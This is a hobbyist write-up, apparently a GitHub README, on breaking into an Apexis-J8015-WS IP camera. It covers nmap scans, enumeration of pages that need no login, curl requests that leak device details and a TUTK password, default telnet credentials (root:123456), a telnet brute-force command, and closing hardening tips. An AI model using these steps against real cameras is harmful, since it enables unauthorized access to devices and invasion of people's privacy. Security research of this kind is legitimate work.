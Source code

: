 # Apexis-J8015-WS
> 22-06-2021

## Description
The Apexis-J8015-WS is a cheap PTZ IP-CAMERA(Factory settings)

### I/O

- 5V(continuous) 2A
- Microphone INPUT 2.5mm
- Audio Output 2.5mm
- RP-SMA Female
- 2 GPIO PIN
- 2 "Alarm" PIN
- 1 RJ-45 Ethernet port

## Hacking

### Basic web research
https://seclists.org/fulldisclosure/2017/Mar/23

Default WEB credentials:
- Username: `admin`
- Password: none

### Nmap Scan

#### Host Discovery
Let's run some nmap scans
```bash
nmap -O IP-CAMERA
```

```
MAC Address: 44:33:XX:XX:XX:XX (Shenzhen Bilian electronic)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
```

#### Port Scanning
```bash
nmap -sC -sV IP-CAMERA
```

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  BusyBox telnetd
80/tcp open  http    mini_httpd 1.19 19dec2003
|_http-server-header: mini_httpd/1.19 19dec2003
|_http-title: Site doesn't have a title (text/html).
```

### IP-CAMERA Web server

#### Basic enumaration

Using the `ApexisURLEnum.py` script with the `enumlist.txt` we can found some interesting datas!
```bash
python3 ApexisURLEnum.py enumlist.txt IP-CAMERA 80
```

Here are some valid urls that don't requires login
```
[+] http://IP-CAMERA:80/IPCameramon.htm
[+] http://IP-CAMERA:80/lang.js
[+] http://IP-CAMERA:80/alias.htm
[+] http://IP-CAMERA:80/rebootme.htm
[+] http://IP-CAMERA:80/reboot.htm
[+] http://IP-CAMERA:80/get_status.cgi
[+] http://IP-CAMERA:80/recpath.htm
[+] http://IP-CAMERA:80/version_conf
[+] http://IP-CAMERA:80/ddns.htm
[+] http://IP-CAMERA:80/upgrade.htm
[+] http://IP-CAMERA:80/alarm.htm
[+] http://IP-CAMERA:80/upnp.htm
[+] http://IP-CAMERA:80/light.htm
[+] http://IP-CAMERA:80/test_ftp.htm
[+] http://IP-CAMERA:80/status.htm
[+] http://IP-CAMERA:80/IPCameramob.htm
[+] http://IP-CAMERA:80/p2p.htm
[+] http://IP-CAMERA:80/msn.htm
[+] http://IP-CAMERA:80/get_tutk_account.cgi
[+] http://IP-CAMERA:80/backup.htm
[+] http://IP-CAMERA:80/test_mail.htm
[+] http://IP-CAMERA:80/vlc_noplugin.htm
[+] http://IP-CAMERA:80/user.htm
[+] http://IP-CAMERA:80/public.js
[+] http://IP-CAMERA:80/log.htm
[+] http://IP-CAMERA:80/VLC_live.htm
[+] http://IP-CAMERA:80/login.htm
[+] http://IP-CAMERA:80/adsl.htm
[+] http://IP-CAMERA:80/VLC_IPCameralive.htm
[+] http://IP-CAMERA:80/main.htm
[+] http://IP-CAMERA:80/decoder.htm
[+] http://IP-CAMERA:80/mail.htm
[+] http://IP-CAMERA:80/monitor.htm
[+] http://IP-CAMERA:80/IPCameralive.htm
[+] http://IP-CAMERA:80/showocx.js
[+] http://IP-CAMERA:80/live.htm
[+] http://IP-CAMERA:80/ip.htm
[+] http://IP-CAMERA:80/datetime.htm
[+] http://IP-CAMERA:80/multidev.htm
[+] http://IP-CAMERA:80/ptz.htm
[+] http://IP-CAMERA:80/wireless.htm
[+] http://IP-CAMERA:80/ftp.htm
[+] http://IP-CAMERA:80/index.htm
[+] http://IP-CAMERA:80/snapshot.htm
```

#### Information Gathering
Now we can see 2 `.cgi` files
```
[+] http://IP-CAMERA:80/get_status.cgi
[+] http://IP-CAMERA:80/get_tutk_account.cgi
```

##### Camera's Informations
```bash
curl http://IP-CAMERA:80/get_status.cgi
```

```
var id='4433XXXXXXXX';
var sys_ver='17.X.X.XX';
var app_ver='30.XX.X.XX';
var alias='IP-CAMERA';
var now=1624537624;
var tz=-3600;
var alarm_status=2;
var ddns_status=29;
var oray_type=0;
var wifi_status=1;
var upnp_status=0;
var msn_status=0;
var ddns_host='XXXX.XXXX.org';
```

##### Possible password leak
```bash
curl http://IP-CAMERA:80/get_tutk_account.cgi
```

```
var ret_tutk_guid='';
var ret_tutk_user='';
var ret_tutk_pwd='000000';
```

### IP-CAMERA Telnet
Now that we have done some research on the IP-CAMERA web server, let's have a look to telnet.

```bash
telnet IP-CAMERA 23
```

```
Trying IP-CAMERA...
Connected to IP-CAMERA.
Escape character is '^]'.

(none) login: 
```

The default telnet credentials for the Apexis-J8015-WS IP camera are:
```
Login: root
Password: 123456
```

But the credentials could be different. Let's do a bit of brute force oin the camera telnet.
```bash
nmap -p 23 --script telnet-brute --script-args userdb=Misc/bruteforce-lists/userlist.txt,passdb=Misc/bruteforce-lists/passlist.txt,telnet-brute.timeout=8s IP-CAMERA
```

```
Host is up (0.0032s latency).

PORT   STATE SERVICE
23/tcp open  telnet
| telnet-brute: 
|   Accounts: 
|     root:123456 - Valid credentials
|_  Statistics: Performed 103 guesses in 33 seconds, average tps: 2.7

Nmap done: 1 IP address (1 host up) scanned in 33.33 seconds
```

## Conslusion (for the moment)
With a bit of **hacking** skills, we now know that the Apexis-J8015-WS is vulnerable!
There is a lots of other things to say about this IP camera like:
- DDNS
- CGI scripts
- Wifi Scanning using the camera(yes, you can...)
- Live stream
- Audio
- Etc...

We have done:
- Information Gathering
- Nmap Scans
- File Enumaration
- Brute Force
  
Using these: leaks, vulnerabilities, and misconfigurations, we now have acces to a IP camera.
This could be dangerous for your privacy or enterprise.
A simple cheap or misconfigured IP camera could become a real weapon!
An attacker could use this camera to enter your network, enter your privacy, and use this device against you.

### How to protect?
- Buy a good quality camera
- Disable all unused features such as: DDNS, WI-FI discovery, Remote access, Telnet, Etc...
- Set strong passwords
- Upgrade your firmware when it's possible
- Use LAN rather than WI-FI when it's possible
- Check logs as often as you can

Thank you for reading!
